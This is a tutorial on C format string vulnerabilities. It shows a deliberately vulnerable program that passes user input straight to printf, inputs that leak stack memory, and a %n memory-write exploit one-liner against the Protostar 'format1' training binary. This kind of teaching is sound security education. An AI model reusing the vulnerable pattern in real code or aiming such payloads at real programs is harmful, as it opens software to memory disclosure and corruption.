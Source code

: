 # Format String Bug

Some notes on what a format string bug is and how it looks like in real life.

## Overview

Format String bug appears in programs written in C, which means this bug is applicable to all operating systems that have a C compiler, or in other words - most of OSes.

## What is Format String?

> **printf format string** refers to a control parameter used by a class of [functions](https://en.wikipedia.org/wiki/Function\_\(computer\_science\)) in the input/output libraries of [C](https://en.wikipedia.org/wiki/C\_\(programming\_language\)) and many other [programming languages](https://en.wikipedia.org/wiki/Programming\_languages). The string is written in a simple [template language](https://en.wikipedia.org/wiki/Template\_language): characters are usually copied literally into the function's output, but **format specifiers**, which start with a [`%`](https://en.wikipedia.org/wiki/Percent\_sign) character, indicate the location and method to translate a piece of data (such as a number) to characters.\
> [\
> https://en.wikipedia.org/wiki/Printf\_format\_string](https://en.wikipedia.org/wiki/Printf\_format\_string)

In other words, format string allows the programmer to specify how a certain value, say a floating-point number such as money savings, should be printed to the screen.

Let's look at the below code example, where the `savings` variable is defined as a floating value of `345.82`, which is printed to the screen with `printf`, using the format string `Savings: $%f`:

{% hint style="info" %}
The `%f` in the format string tells the `printf()` to print the value of `savings` as a floating-point value.
{% endhint %}

{% code title="fmt-00.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        double savings = 345.82;
        
        // The first argument is the format string.
        // It tells printf to print the value of savings as a floating value.
        printf("Savings: $%f", savings);
        return 0;
}
```
{% endcode %}

Let's compile, run the code and observe the result:

```
gcc .\fmt-00.c -o fmt-00.exe; .\fmt-00.exe
```

...we can see that the `savings` value was printed with 6 decimal places:

![](<../../../.gitbook/assets/image (1076).png>)

However, `$345.820000` is not the precision we need when dealing with money, so it would look better if the value only had 2 decimal places, such as `$345.82`. With the help of format string `Savings: $%.2f`, we can achieve exactly that:

![](<../../../.gitbook/assets/image (1077).png>)

## What is Format String Bug?

Programs become vulnerable to the format string bug when user supplied data is included in the format string the program uses to display the data when in print functions such as (not limited to):

```c
printf
fprintf
sprintf
snprintf
...
```

## Memory Read

Format string vulnerabilities make it possible to read stack memory of the vulnerable program.

Let's look at the sample code provided below, that takes in the user supplied argument 1 and uses it in inside the function `printf`, which means that the user's supplied string is used as a format string for the <mark style="color:blue;">`printf`</mark> function:

{% code title="fmt.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        if( argc != 2 )
        {
                printf("Error - supply a format string please\n");
                return 1;
        }

        printf( argv[1] );
        printf( "\n" );

        return 0;
}
```
{% endcode %}

Let's compile and run the program without feeding it any strings first:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe
```

![](<../../../.gitbook/assets/image (1078).png>)

Let's now supply a string format, say `Testing: 0x%x`:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Testing: 0x%x"
```

![](<../../../.gitbook/assets/image (1081).png>)

Considering the fact that the format string is supplied, but the corresponding variable is not (which would be provided in the program written by a programmer, however in our case we are supplying the format string to the program via a commandline argument without associated variables), the program simply **starts reading values from the stack memory**. Note that there is nothing preventing us from reading even multiple values from the stack too:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Reading stack memory: 0x%x 0x%x 0x%x 0x%x"
```

![](<../../../.gitbook/assets/image (1080).png>)

The above example illustrates how it may be possible to abuse this bug to read program's stack memory, which may reveal some sensitive information, such as authentication passwords.

## Memory Write

Format string vulnerabilities make it possible to write to arbitrary memory locations inside the vulnerable program.

To see this in action, we're going to use the following purposely vulnerable code from:

{% embed url="https://exploit.education/protostar/format-one" %}

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*128 " `"; echo
```

### Exploit

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*127 + '%n ' " `"; echo
```

{% hint style="info" %}
It's possible to abuse format bugs to execute shellcode, but I could not get my dev environment setup to reproduce the exploitation examples found in the book and online, so these notes are parked for the time being.
{% endhint %}

## References

{% embed url="https://www.wiley.com/en-gb/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238" %}

[https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
